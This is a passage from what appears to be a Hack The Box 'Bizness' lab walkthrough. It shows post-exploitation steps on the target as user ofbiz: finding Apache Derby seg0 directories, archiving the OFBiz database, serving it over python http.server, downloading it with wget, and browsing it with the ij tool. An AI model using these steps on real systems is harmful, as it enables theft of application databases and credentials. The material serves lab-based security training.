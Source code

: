 ```
jar [directory] - (might not exist.) A directory in which jar files are stored when you use database class loading.
```

So `seg0` seems like our target here
```
ofbiz@bizness:~$ find /opt/ofbiz/ -name seg0       
/opt/ofbiz/runtime/data/derby/ofbiz/seg0
/opt/ofbiz/runtime/data/derby/ofbizolap/seg0
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0
```

There are also professional tools here to help us view the database
```
ij is an “interactive SQL scripting tool that comes with Derby”, according to the docs. I’ll install it with apt install derby-tools.
```

Firstly, we need to compress all of them into one file and download to our local machine
```
ofbiz@bizness:~$ tar -czf /tmp/derby.tar.gz /opt/ofbiz/runtime/data/derby

ofbiz@bizness:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(wither㉿localhost)-[~/Templates/htb-labs/Bizness]
└─$ wget http://10.10.11.252:8000/derby.tar.gz
```

Then we can unzip it and check the database
```
ij version 10.14
ij> connect 'jdbc:derby:./ofbiz';
ij>

ij> show SCHEMAS;
TABLE_SCHEM                   
------------------------------
APP                           
NULLID                        
OFBIZ                         
SQLJ                          
SYS                           
SYSCAT                        
SYSCS_DIAG                    
SYSCS_UTIL                    
SYSFUN                        
SYSIBM                        
SYSPROC                       
SYSSTAT                       

12 rows selected

ij> show tables;
```
